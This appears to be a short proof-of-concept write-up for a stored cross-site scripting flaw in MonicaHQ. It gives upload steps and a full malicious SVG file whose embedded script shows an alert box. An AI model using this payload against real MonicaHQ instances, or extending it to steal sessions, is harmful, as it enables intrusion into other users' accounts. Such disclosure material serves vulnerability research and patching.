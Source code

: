 # MonicaHQ XSS

## Exploitation of MonicaHQ XSS

- Create an account

- Create a contact

- In Documents, upload a malicious SVG file

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("Monicahq XSS Poc");
  </script>
</svg>

```
